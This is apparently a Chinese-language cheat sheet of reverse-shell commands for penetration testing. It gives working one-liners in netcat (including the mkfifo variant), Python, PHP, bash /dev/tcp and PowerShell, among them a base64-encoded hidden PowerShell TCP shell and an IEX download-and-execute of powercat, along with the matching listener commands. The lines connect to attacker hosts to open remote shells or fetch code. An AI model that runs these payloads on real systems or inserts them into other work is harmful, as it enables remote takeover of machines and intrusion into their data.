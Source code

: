 # 常用 nc 反弹 shell
## 使用-e 来反弹 shell
服务端：
```bash
nc -nv 10.10.10.1 4444 -e /bin/bash  #linux
```
```bash
nc.exe 10.10.10.1 4444 -e cmd.exe    #windows
```
客户端：
```bash
nc -lvnp 4444   #linux/windows
```
最后在客户端收到 shell，但是有时 linux 默认安装的 nc 可能不具有-e 功能，属于阉割版，这时以上命令不起作用
## 无-e 反弹 shell
服务端：
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.1 5555 > /tmp/f
```
客户端：
```bash
nc -lvnp 5555
```



# Python 反弹 shell
当目标含有python执行环境后
## windows环境
```python
import sys
import base64
payload = '$client = New-Object System.Net.Sockets.TCPClient("192.168.118.2",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
cmd = "powershell -nop -w hidden -e " + base64.b64encode(payload.encode('utf16')[2:]).decode()
print(cmd)
```
最后该脚本输出在powershell中可执行的语句，执行后会反弹shell（其中payload base64加密）


## linux环境
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("47.xxx.xxx.72",2333));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
该命令在linux中的bash执行



# PHP 反弹 shell
## 常用 PHP 反弹 shell
服务端：
```php
<?php exec("bash -c 'bash -i >& /dev/tcp/10.10.10.1/5555 0>&1'");?>
```
客户端：
```bash
nc -lvnp 5555
```
使用 exec（）函数执行 bash 命令，或者使用 system（）命令，主要使用在 linux 系统



# ASP/ASPX 反弹 shell
包含在 kali 中，ASP/ASPX 路径 `/usr/share/webshells/asp`  和 `/usr/share/webshells/aspx`



# Java 反弹 shell
包含在 kali 中，`/usr/share/webshells/jsp`



#  Linux bash 反弹 shell
## 使用 bash 反弹 shell
服务端：
```bash
/bin/bash -c "bash -i >& /dev/tcp/10.10.10.1/5555 0>&1"
```
客户端：
```bash
nc -lvnp 5555
```




# Windows powershell 反弹 shell
## Powercat 反弹 shell
首先开启 http 服务，用于远程主机下载 powercat
`php -S 0:80`
执行 powershell 命令
服务端：
```powershell
powershell IEX (New-Object System.Net.Webclient).DownloadString('http://10.10.10.1/powercat.ps1');powercat -c 10.10.10.2 4444 -e cmd
```
客户端：
```bash
nc -lvnp 4444
```



